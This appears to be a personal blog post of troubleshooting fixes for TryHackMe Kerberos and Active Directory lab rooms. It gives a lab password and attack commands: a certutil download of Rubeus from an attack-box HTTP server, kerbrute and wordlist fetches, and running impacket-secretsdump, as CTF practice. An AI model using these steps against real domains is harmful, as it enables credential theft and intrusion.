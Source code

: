 ```yaml
---
layout: post
title:  "TryHackMe - fixes"
date:   2025-01-12 14:10:00 +1000
categories: blog
tags: [cloud, offsec]
subtitle: "Fighting old battles again?"
---
```


List of issues encountered and their corresponding bypasses / fixes

## Attacking Kerberos

### Harvesting & Brute-Forcing Tickets w/ Rubeus

The middleman machine's RDP never accepts the password provided. 

Luckily, an SSH service is running on the host, atypical for Windows.

First, let's connect via SSH and confirm connectivity
```
ssh Administrator@<KerberosServer>
Password: P@$$W0rd
```

Yay! However, if SSH is utilized, there will be problems compiling software or getting Rubeus on the host as it's not connected to the internet.

Luckily, someone compiled software we need: [https://github.com/r3motecontrol/Ghostpack-CompiledBinaries](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries)

On the AttackBox, open terminal tab and run the following commands,
```
mkdir share && cd share
git clone https://github.com/r3motecontrol/Ghostpack-CompiledBinaries
python3 http.server 8000
```

As a sanity-check, on AttackerBox, open Firefox and confirm the Rubeus download URL. It should be,
```
http://<AttackBox_IP>:8000/Ghostpack-CompiledBinaries/Rubeus.exe
```

Then, we can work around connectivity issues using an old OffSec OSCP trick to infiltrate/exfiltrate data. Back to KerberosServer SSH, run:
```
cd Downloads
certutil.exe -urlcache -split -f http://<AttackBox_IP>:8000/Ghostpack-CompiledBinaries/Rubeus.exe Rubeus.exe
```

You should then see a request in the http.server logs. Now you can run Rubeus. Luckily, all required .Net Framework packages are already on the host.

### Enumeration w/ Kerbrute

In my opinion, this section has several small problems, so here are the correct steps,

Download everything,

> wget https://github.com/ropnop/kerbrute/releases/download/v1.0.3/kerbrute_linux_amd64 -O kerbrute
> chmod +x kerbrute

> wget https://github.com/Cryilllic/Active-Directory-Wordlists**/raw/refs/heads/master/**User.txt

Fix routing issue,

> file /etc/hosts
> nano /etc/hosts

now add the line of: `<Target_machine_IP> CONTROLLER.local` to the hosts file, replacing <Target_machine_IP> with its IP.

## Attacktive Directory

### Elevating Privileges within the Domain

I encountered issues with the operation of `secretsdump.py` (stock or modified). Maybe it's related to AttackBox, maybe it's related to impacket. However, I found an easy workaround to the problem,

```
apt install python3-impacket
```
 
you should see,

```
After this operation, 27.0 MB of additional disk space will be used.
Do you want to continue? [Y/n] y
```

now you can proceed as follows,

```
impacket-secretsdump <desired-secretsdump.py-command>
```


----------------------
Tim Abdiukov
